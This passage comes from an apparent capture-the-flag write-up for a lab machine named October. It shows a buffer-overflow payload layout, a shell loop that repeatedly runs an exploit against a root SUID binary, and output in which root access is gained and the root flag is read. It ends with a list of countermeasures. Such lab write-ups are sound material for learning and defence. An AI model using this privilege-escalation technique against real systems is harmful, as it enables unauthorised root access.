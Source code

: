 The format of the buffer is essentially the following:

```none
NOP SLED|RETURN ADDRESS|PREVIOUS STACK FRAME ADDRESS|FUNCTION ARGUMENTS
```

I wrote `loop-exploit.sh` to run `exploit.py` until I got a root shell:

```bash
#!/bin/sh

while true; do
    /usr/local/bin/ovrflw $(python3 exploit.py)
done
```

```none
www-data@october:/dev/shm$ ./loop-exploit.sh
Segmentation fault (core dumped)
Segmentation fault (core dumped)
... CONTENT SNIPPED ...
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
6bcb9cff749c9318d2a6e71bbcf30318
```

## Countermeasures

* Keep October CMS updated to the latest version.
* Change the default login credentials on October CMS.
* Upgrade the operating system the latest version (x64 bit is preferred to make ASLR more effective).
* Don't keep vulnerable root SUID binaries around on the machine.

